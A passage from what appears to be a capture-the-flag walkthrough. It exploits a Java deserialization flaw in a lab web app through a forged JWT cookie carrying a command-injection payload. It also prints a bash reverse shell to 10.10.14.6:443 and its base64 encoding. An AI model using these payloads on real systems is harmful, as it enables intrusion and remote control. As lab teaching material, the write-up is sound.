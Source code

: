 ```

oxdf@hacky$ java -jar target/exploit-1.0-SNAPSHOT.jar 
rO0ABXNyADFjb20uYWRtaW4uc2VjdXJpdHkuc3JjLnByb2ZpbGUuVXNlclByb2ZpbGVTdG9yYWdlsVf4McAfoVsCAAFMAAR1c2VydAAjTGNvbS9hZG1pbi9zZWN1cml0eS9zcmMvbW9kZWwvVXNlcjt4cHNyACFjb20uYWRtaW4uc2VjdXJpdHkuc3JjLm1vZGVsLlVzZXKUBNdz41+5awIABEkAAmlkTAALZmluZ2VycHJpbnR0ABJMamF2YS9sYW5nL1N0cmluZztMAAhwYXNzd29yZHEAfgAETAAIdXNlcm5hbWVxAH4ABHhwAAAA33QAAHEAfgAGdAA+Li4vLi4vLi4vLi4vJChwaW5nIC1jIDEgMTAuMTAuMTQuNikvLi4vLi4vLi4vZGF0YS91cGxvYWRzLzB4ZGY=

```

### Execution

#### RCE POC

I’ll upload `0xdf.ser` on the avatar page. It returns in the background:

```

Successfully uploaded to /data/uploads/0xdf.ser

```

Then I’ll take the base64 generated above and put it into JWT.io (with the signing secret still there), updating the `user` field. That generates a new cookie:

[![image-20211104133623138](https://0xdfimages.gitlab.io/img/image-20211104133623138.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211104133623138.png)

On adding that cookie to Firefox, when I refresh the page:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:26:38.374336 IP 10.10.10.141 > 10.10.14.6: ICMP echo request, id 50182, seq 1, length 64
13:26:38.374362 IP 10.10.14.6 > 10.10.10.141: ICMP echo reply, id 50182, seq 1, length 64

```

#### Shell

I’ll encode a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in base64 to get rid of special characters:

```

oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==

```

I’ll update the payload in my Java, and rebuild it. When I run it, I get a new base64 encoded `UserProfileStorage` object. I’ll paste that into JWT.io to update the cookie, and get a new one, which I can add to Firefox. On refreshing, I get a shell:
